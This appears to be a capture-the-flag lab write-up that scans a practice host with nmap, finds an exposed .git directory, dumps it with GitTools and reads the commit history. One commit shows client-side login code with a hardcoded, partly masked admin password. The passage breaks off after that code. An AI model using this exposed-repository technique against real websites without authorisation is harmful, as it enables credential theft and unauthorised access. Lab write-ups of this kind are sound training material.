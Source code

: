 #### 1. Scanning

```
nmap -Pn -A 10.10.45.146     

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-21 14:23 EST
Nmap scan report for 10.10.45.146
Host is up (0.20s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
| http-git: 
|   10.10.45.146:80/.git/
|     Git repository found!
|_    Repository description: Unnamed repository; edit this file 'description' to name the...
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Super Awesome Site!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.20 seconds
```

There is a hidden git repository.

#### 2. Dumping .git repository

I found a nice script here:

`https://github.com/internetwache/GitTools`

which allows to dump git repository. Once done, I go to a folder and check history of commits:

`git log`

Which gives me a list of them.

Another step is to verify each one starting from initial with:

`git show`


It turns out that in second one we find a password:

```
+    <script>
+      function login() {
+        let form = document.getElementById("login-form");
+        console.log(form.elements);
+        let username = form.elements["username"].value;
+        let password = form.elements["password"].value;
+        if (
+          username === "admin" &&
+          password === "Th*****************d!"
+        ) {
+          document.cookie = "login=1";
+          window.location.href = "/dashboard.html";
+        } else {
+          document.getElementById("error").innerHTML =
+            "INVALID USERNAME OR PASSWORD!";
+        }
```

                                                            I                                         